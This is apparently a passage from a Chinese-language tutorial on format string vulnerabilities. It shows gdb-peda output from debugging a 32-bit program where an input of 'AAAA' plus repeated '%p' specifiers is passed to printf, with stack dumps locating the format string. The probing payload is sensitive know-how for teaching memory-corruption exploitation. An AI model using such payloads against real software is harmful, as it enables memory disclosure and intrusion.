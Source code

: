 ```text
gdb-peda$ python print("AAAA"+".%p"*20)
AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
...
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffffd584 ("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
EBX: 0x56557000 --> 0x1efc
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd618 --> 0x0
ESP: 0xffffd550 --> 0xffffd584 ("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
EIP: 0x56555642 (<main+133>:    call   0x56555430 <printf@plt>)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56555638 <main+123>:       push   DWORD PTR [ebp-0xc]
   0x5655563b <main+126>:       lea    eax,[ebp-0x94]
   0x56555641 <main+132>:       push   eax
=> 0x56555642 <main+133>:       call   0x56555430 <printf@plt>
   0x56555647 <main+138>:       add    esp,0x20
   0x5655564a <main+141>:       sub    esp,0xc
   0x5655564d <main+144>:       push   0xa
   0x5655564f <main+146>:       call   0x56555450 <putchar@plt>
Guessed arguments:
arg[0]: 0xffffd584 ("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
arg[1]: 0x1
arg[2]: 0x88888888
arg[3]: 0xffffffff
arg[4]: 0xffffd57a ("ABCD")
[------------------------------------stack-------------------------------------]
0000| 0xffffd550 --> 0xffffd584 ("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
0004| 0xffffd554 --> 0x1
0008| 0xffffd558 --> 0x88888888
0012| 0xffffd55c --> 0xffffffff
0016| 0xffffd560 --> 0xffffd57a ("ABCD")
0020| 0xffffd564 --> 0xffffd584 ("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
0024| 0xffffd568 (" RUV\327UUVT\332\377\367\001")
0028| 0xffffd56c --> 0x565555d7 (<main+26>:     add    ebx,0x1a29)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x56555642 in main ()
```

格式字符串的地址在 `0xffffd584`，从下面的输出中可以看到它们在栈中是怎样排布的：

```text
gdb-peda$ x/20w $esp
0xffffd550:     0xffffd584      0x00000001      0x88888888      0xffffffff
0xffffd560:     0xffffd57a      0xffffd584      0x56555220      0x565555d7
0xffffd570:     0xf7ffda54      0x00000001      0x424135d0      0x00004443
0xffffd580:     0x00000000      0x41414141      0x2e70252e      0x252e7025
0xffffd590:     0x70252e70      0x2e70252e      0x252e7025      0x70252e70
gdb-peda$ x/20wb 0xffffd584
0xffffd584:     0x41    0x41    0x41    0x41    0x2e    0x25    0x70    0x2e
0xffffd58c:     0x25    0x70    0x2e    0x25    0x70    0x2e    0x25    0x70
0xffffd594:     0x2e    0x25    0x70    0x2e
gdb-peda$ python print('\x2e\x25\x70')
.%p
```
